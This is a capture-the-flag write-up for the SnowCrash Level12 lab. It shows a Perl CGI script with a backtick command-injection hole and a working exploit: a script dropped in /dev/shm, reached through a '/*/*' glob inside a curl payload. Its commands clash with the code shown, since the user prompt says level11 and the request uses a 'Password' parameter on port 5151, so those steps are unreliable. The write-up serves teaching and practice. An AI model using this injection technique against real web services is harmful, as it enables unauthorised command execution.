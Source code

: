 #SnowCrash Level12

Lets go ahead and see what we have here.
```
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Same as the level before :

It's like an RCE(remote code execution).
But if you pay attention to the regex, any lowercase characters passed will become uppercase.
And for the second regex anything that is passed after spaces will be deleted.
So the only way to use this is through a file that's execute a command.
And since we can't use filenames we have to do a "/*/*".
/tmp doesn't have the right permissions.
let's look arround for a bit to find a folder that has the write permissions for public.
Using this command :
```
level11@SnowCrash:~$ find / -writable 2>/dev/null | grep -v proc
/dev/vboxuser
/dev/log
/dev/shm
/dev/char/10:56
/dev/char/5:0
/dev/char/5:2
/dev/char/10:200
/dev/char/10:229
/dev/char/1:5
/dev/char/1:9
/dev/char/1:8
/dev/char/1:3
/dev/char/1:7
/dev/stderr
/dev/stdout
/dev/stdin
/dev/fd
/dev/pts/0
/dev/net/tun
/dev/ptmx
/dev/fuse
/dev/tty
/dev/urandom
/dev/random
/dev/full
/dev/zero
/dev/null
/run/acpid.socket
/run/dbus/system_bus_socket
/run/shm
/run/lock
/tmp
/var/crash
/var/lib/php5
/var/lock
/var/tmp
/rofs/dev/urandom
/rofs/var/lock
```

Can't use the first 2 so I used the 3rd one.
```
level11@SnowCrash:~$ cat /dev/shm/EXPLOIT
#!/bin/sh

getflag > /tmp/flaghh
```

Then :
```
level11@SnowCrash:~$ curl 'localhost:5151/?Password=`/*/*/EXPLOIT`'
Password: Erf nope..
level11@SnowCrash:~$ cat /tmp/flaghh
Check flag.Here is your token : 
```